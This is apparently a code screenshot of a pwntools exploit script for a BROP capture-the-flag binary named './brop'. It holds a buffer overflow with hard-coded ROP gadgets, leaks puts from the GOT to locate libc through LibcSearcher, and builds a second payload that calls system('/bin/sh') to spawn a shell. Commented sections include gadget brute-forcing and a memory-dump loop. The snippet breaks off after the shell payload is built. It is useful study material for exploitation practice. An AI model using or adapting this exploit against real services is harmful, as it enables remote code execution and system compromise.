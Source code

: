 ```python
    brop_gadgets = 0x4007ba  # 0x4007ba for add rsp, 6
    '''
    while True:
        info('Testing 0x%x'%brop_gadgets)
        if get_brop_gadget(length, stop_gadget, brop_gadgets):
            if check_BROP_gadgets(brop_gadgets, length):
                success('success in finding brop gadgets: 0x%x', brop_gadgets)
                break
        else:
            brop_gadgets += 1
    '''
    pop_rdi_ret = brop_gadgets + 9
    # puts_addr = get_puts_addr(length, pop_rdi_ret, stop_gadget)
    # puts_addr = get_puts_start_addr(
    #    length, pop_rdi_ret, stop_gadget, puts_addr)
    puts_addr = 0x400560
    '''
    get puts_got
    result = b""
    addr = 0x400000
    while addr < 0x401000:
        info("starting to deal {}".format(hex(addr)))
        data = leak(length, pop_rdi_ret, puts_addr, addr,stop_gadget)
        if data is None:
            continue
        else:
            result += data
        addr += len(data)
    with open('code', 'wb') as f:
        f.write(result)
    '''

   # retn_addr = get_retn_gadget(length, stop_gadget)

    retn_addr = 0x400541
    puts_got = 0x601018
    #sh = remote('127.0.0.1', 10001)
    context(log_level='debug')
    sh = process('./brop')
    sh.recvuntil('password?\n')
    payload = length*b'a' + p64(pop_rdi_ret) + \
        p64(puts_got) + p64(retn_addr) + p64(puts_addr) + p64(stop_gadget)
    sh.sendline(payload)
    #data = sh.recvuntil(b'\nWelCome', drop=True)
    #puts_libc = u64(data.ljust(8, b'\x00'))
    puts_libc = u64(sh.recv(6).ljust(8, b'\x00'))
    libc = LibcSearcher('puts', puts_libc)
    libc_base = puts_libc - libc.dump('puts')
    system_addr = libc_base + libc.dump('system')
    str_bin_sh = libc_base + libc.dump('str_bin_sh')


    '''
    libc = ELF('./libc.so')
    libc_base = puts_libc - libc.sym['puts']
    system_addr = libc_base + libc.sym['system']
    str_bin_sh = libc_base + next(libc.search(b'/bin/sh'))
    '''

    sh.recvuntil(b'password?\n')
    payload = length*b'a' +  \
        p64(pop_rdi_ret) + p64(str_bin_sh) +  p64(system_addr) + p64(stop_gadget)
    pid = util.proc.pidof(sh)[0]
```